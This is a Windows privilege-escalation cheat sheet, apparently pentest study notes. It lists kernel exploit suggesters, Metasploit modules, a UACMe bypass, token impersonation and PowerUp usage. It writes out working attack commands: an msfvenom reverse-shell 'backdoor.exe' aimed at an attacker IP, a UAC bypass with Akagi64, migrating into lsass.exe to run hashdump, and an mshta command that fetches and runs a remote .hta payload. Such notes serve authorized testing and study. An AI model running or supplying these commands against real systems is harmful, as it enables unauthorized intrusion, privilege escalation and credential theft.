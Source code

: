 # Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database <xlsfile> --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe 
- need local admin account access
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> : run on target computer
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

![meterpreter getuid](./images/privesc-01.png)

![meterpreter access denied to read file](./images/privesc-02.png)  ￼￼

- load incognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>

![meterpreter access denied to read file](./images/privesc-03.png)  ￼￼	   ￼

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta
